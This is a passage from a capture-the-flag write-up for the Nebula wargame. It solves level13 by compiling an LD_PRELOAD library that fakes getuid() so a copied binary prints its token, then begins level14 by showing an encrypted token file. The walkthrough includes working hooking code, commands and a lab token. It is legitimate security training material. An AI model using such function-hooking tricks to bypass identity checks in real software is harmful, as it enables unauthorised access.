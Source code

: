 This level had me researching for quite some time. I came to learn of ELF DSO's and `LD_PRELOAD`. Basically, it is possible to have the dynamic linker preload shared libraries from the `LD_PRELOAD` environment variable that may allow for some functions to be modified. [This](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) article contained most of the magic that was needed to get this level done.

I decided to 'override' the `getuid()` function so that it would return the value of the `FAKEUID` constant in the program, instead of the value the real `getuid()` would have returned. For that to happen, I looked up the arguments for `getuid()` from the man page and copied that for my own purposes. I then compiled it as a shared library with the famous `-shared -fPIC` arguments for position independent code and exported the `LD_PRELOAD` variable prior to running the binary.

One important thing to note here is that this 'hack' has a few gotchas. The executing binary and the library needs to be relative to each other. SETUID programs discard the `LD_PRELOAD` environment variable (for obvious reasons) so this is not a privilege escalation. In the source code we have received, there is a portion excluded (that probably just prints the token :P) on purpose. This means we can copy the binary and still be able to get the desired effect. Of course, we could also resort to slapping this into a debugger and checking what it is doing under the hood, but given the nature of Nebula, I figured the point is to actually override `getuid()`.

So, to solve level13:

```bash
level13@nebula:/var/tmp$ cp ~flag13/flag13 .

level13@nebula:/var/tmp$ cat fake_getuid.c
#include<unistd.h>

uid_t getuid(void) {
    return 1000;
}

level13@nebula:/var/tmp$ gcc -shared -fPIC /var/tmp/fake_getuid.c -o /var/tmp/fake_getuid.o

level13@nebula:/var/tmp$ LD_PRELOAD=/var/tmp/fake_getuid.o ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58

level13@nebula:/var/tmp$ su - flag13
Password:
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## level14

[Level14's Description](https://exploit-exercises.com/nebula/level14/):

> This program resides in /home/flag14/flag14. It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :)

Logged in as user `level14`, we see 2 files in the `flag14` directory:

```bash
level14@nebula:~$ cd ~flag14
level14@nebula:/home/flag14$ ls -lh
total 8.0K
-rwsr-x--- 1 flag14  level14 7.2K 2011-12-05 18:59 flag14
-rw------- 1 level14 level14   37 2011-12-05 18:59 token

level14@nebula:/home/flag14$ cat token
857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
```
`token` obviously being the target to decrypt. Running `flag14` tells us that it is expecting a `-e` flag to encrypt. So, I tested the encryption to see how it behaves:
